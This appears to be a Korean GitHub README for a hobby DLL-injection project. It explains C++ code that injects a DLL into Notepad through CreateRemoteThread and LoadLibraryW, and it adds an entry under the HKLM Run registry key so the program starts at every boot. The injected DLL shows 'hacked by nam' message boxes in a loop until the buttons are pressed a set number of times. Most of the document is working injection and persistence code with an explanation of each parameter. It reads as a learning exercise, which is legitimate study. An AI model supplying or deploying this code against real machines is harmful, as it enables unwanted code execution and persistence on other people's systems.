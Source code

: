 # DLL_Injection
> made by nam


메모장이 켜질때마다 DLL을 삽입하여 내가 원하는 작동을 하도록 실행하는 프로그램    
    

## 소스해석
### DLL 소스
```C++
DWORD WINAPI ThreadProc(LPVOID lparm) {
    int a=0, b=0, c=0;
    int flag = 0,return_val;
    while (1) {
        if (flag)
            break;
        for (int i = 0; i < (a * b * c) + 1; i++) {
            return_val=MessageBox(NULL, L"hacked by nam", L"LOL", MB_YESNOCANCEL|MB_ICONWARNING);
            if (return_val == IDYES)
                a++;
            else if (return_val == IDNO)
                b++;
            else if (return_val == IDCANCEL)
                c++;

            if (a == 4&&b == 2&&c == 5) {
                flag = 1;
                break;
            }
        }

    }
    return 0;
}
```
messagebox에서 나오는 버튼 3개를 각각 4 2 5번 누르면 꺼지게 동작

### 메인소스

```C++
void register_program() {
	HKEY  m_hRegsKey;
	const WCHAR* regItemName = L"dll_injection_by_nam";
	const WCHAR* val = L"C:\\Users\\nam\\source\\repos\\dll_injection\\x64\\Debug\\dll_injection.exe";
	RegCreateKey(HKEY_LOCAL_MACHINE, L"SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run", &m_hRegsKey);
	RegSetValueEx(m_hRegsKey, regItemName, NULL, REG_SZ,(const byte*)val, 134);//lstrlen(val)*2
	RegCloseKey(m_hRegsKey);
}
```
SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run 에 추가하여 컴퓨터 시작될때마다 자동으로 실행되게 만드는 함수 </br></br>


```C++
DWORD32 get_pid(wstring proc_name) {

	PROCESSENTRY32 pe32;
	HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS,0);
	pe32.dwSize = sizeof(PROCESSENTRY32);
	Process32First(hSnapshot, &pe32);
	do {
		wstring num = pe32.szExeFile;
		if (!wcscmp(num.c_str(), proc_name.c_str())) {
			return pe32.th32ProcessID;
		}

	} while (Process32Next(hSnapshot, &pe32));
	return 0;
}
```
구할 프로세스의 이름을 인자로 주면 PID를 리턴하는 함수 </br></br>

```C++
BOOL dll_inject(DWORD hwPID, LPCTSTR DllPath) {
	HANDLE hProcess = NULL;
	HANDLE hThread = NULL; 
	HMODULE hMod = NULL; 
	LPVOID pRemoteBuf = NULL; 
	LPTHREAD_START_ROUTINE pThreadProc; 
	hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, hwPID);
	
	DWORD dwBufSize = (DWORD)(_tcslen(DllPath) + 1) * sizeof(TCHAR);
	
	pRemoteBuf = VirtualAllocEx(hProcess, NULL, dwBufSize, MEM_COMMIT, PAGE_READWRITE);
	WriteProcessMemory(hProcess, pRemoteBuf, (LPVOID)DllPath, dwBufSize, NULL); 
	hMod = GetModuleHandle(TEXT("kernel32.dll"));
	pThreadProc = (LPTHREAD_START_ROUTINE)GetProcAddress(hMod, "LoadLibraryW");
	hThread = CreateRemoteThread(hProcess, NULL, 0, pThreadProc, pRemoteBuf, 0, NULL);
	WaitForSingleObject(hThread, INFINITE); 
	CloseHandle(hThread); 
	CloseHandle(hProcess); 
	return 1; 
}
```
DLL 인젝션의 핵심 부분이다.    
1. **OpenProcess**(**dwDesiredAccess**:접근권한, **bInheritHandle**:TRUE면 핸들을 상속, FALSE면 상속X, **dwProcessId**:프로세스 식별자(PID)) 리턴값으로 대상 프로세스의 핸들을 구한다.   
2. **VirtualAllocEx**(**hProcess**:인젝션할 프로세스의 핸들, **lpAddress**:할당할 주소로 NULL을 넣으면 자동, **dwSize**:할당할 메모리의 크기(byte), **flAllocationType**:할당유형-전체메모리 내에 할당하려면 MEM_COMMIT(0x1000), **flProtect**:할당된페이지에 대한 권한)    
리턴값으로 대상 프로세스에 LPVOID형의 메모리 공간을 확보해 DLL의 경로를 넣을 공간을 만든다.

3. **WriteProcessMemory**(**hProcess**:프로세스의 핸들, **lpBaseAddress**:DLL절대경로를 작성할 주소, **lpBaseAddress**:DLL의 절대경로가 작성된주소, **nSize**:Write할 바이트 크기(DLL의 절대경로의 길이보다 크게 지정), **lpNumberOfBytesWritten**:Write가 잘 되었는지 작성한 바이트를 저장하는 주소)    

4. **GetModuleHandle**(TEXT("kernel32.dll"));
5. **GetProcAddress**(hMod, "LoadLibraryW");    
LoadLibrary는 kernel32.dll에 존재하므로 kernel32.dll의 핸들을 얻고 LoadLibrary의 주소를 구한다.

6. **CreateRemoteThread**(**hProcess**:프로세스의 핸들, **lpThreadAttributes**:보안속성-특별한 속성이 없다면 NULL, **dwStackSize**:스택의 초기사이즈(byte)-0을 넣으면 실행파일의 default size를 사용, **lpStartAddress**:스레드의 시작주소, **lpParamete**r:스레드가 실행할 함수의 파라미터, **dwCreationFlags** : 0을 넣으면 스레드 생성직후에 실행, **lpThreadId** : 스레드식별자(TID)를 저장하기위한 주소)


</br></br>
